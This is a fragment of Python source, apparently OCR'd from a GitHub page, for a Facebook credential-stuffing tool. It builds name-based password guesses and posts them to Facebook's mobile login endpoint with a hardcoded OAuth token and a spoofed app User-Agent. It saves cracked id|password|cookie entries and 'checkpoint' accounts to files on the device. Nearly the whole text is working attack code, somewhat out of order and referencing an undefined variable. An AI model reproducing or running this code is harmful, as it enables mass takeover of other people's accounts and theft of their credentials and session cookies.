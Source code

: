                 for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        M2 = "[FBAN/FB4A;FBAV/405.0.0.23.72;FBBV/440002512;FBDM/{density=3.0,width=720,height=2176};FBLC/en_Qaag_US;FBRV/359080319;FBCR/Telenor;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1907_19;FBSV/8.1.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]"
                        data = {"adid": adid,"format": "json",
                        "device_id": str(uuid.uuid4()),
                        "email": ids,"password": pas,
                        "generate_analytics_claims": "1",
                        "credentials_type": "password",
                        "source": "login","error_detail_type": "button_with_disabled",
                        "enroll_misauth": "false",
                        "generate_session_cookies": "1",
                        "generate_machine_id": "1",
                        "fb_api_req_friendly_name": "authenticate",}
                        headers={"Accept-Encoding": "gzip, deflate",
                        "Accept": "*/*","Connection": "keep-alive",
                        "User-Agent": '[FBAN/FB4A;FBAV/'+str(random.randint(11,99))+'.0.0.'+str(random.randint(1111,9999))+';FBBV/'+str(random.randint(1111111,9999999))+';'f'{M2}',
                        "Authorization": "OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32",
                        "X-FB-Friendly-Name": "authenticate",
                        "X-FB-Connection-Type": "unknown",
                        "Content-Type": "application/x-www-form-urlencoded",
                        "X-FB-HTTP-Engine": "Liger","Content-Length": "329",}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        cookie = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}POCO-OK{R}>{G} '+ids+' | '+pas+'\033[1;97m')
                                        #print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}COOKIES{R}>{G} '+cookie);linex()
                                        open('/sdcard/POCO-FILE-M2-OK.txt','a').write(ids+'|'+pas+'|'+coki+'\n')
                                        oks.append(ids)
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r{R}<{W}={R}>{W}-{R}<{P}POCO-CP{R}>{P} '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/POCO-FILE-M2-CP.txt','a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                        else:continue
                loop+=1
        except Exception as e:
                pass
#--------------------< END CODE >--------------------#
poco()
#--------------------< IMPORT >--------------------#
import requests,random,uuid,string,hashlib,json,os,base64,zlib,pip,urllib,urllib3,platform,math,smtplib,os,base64,zlib,pip,urllib
from os import path
from urllib.request import urlopen
try:
	import os,requests,json,time,re,random,sys,uuid,string,subprocess
	from string import *
	from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
	print('<[=]> INSTALLING MISSING MODULES...');os.system('pip install requests futures==2 > /dev/null')
except:pass
#--------------------< LOOP >--------------------#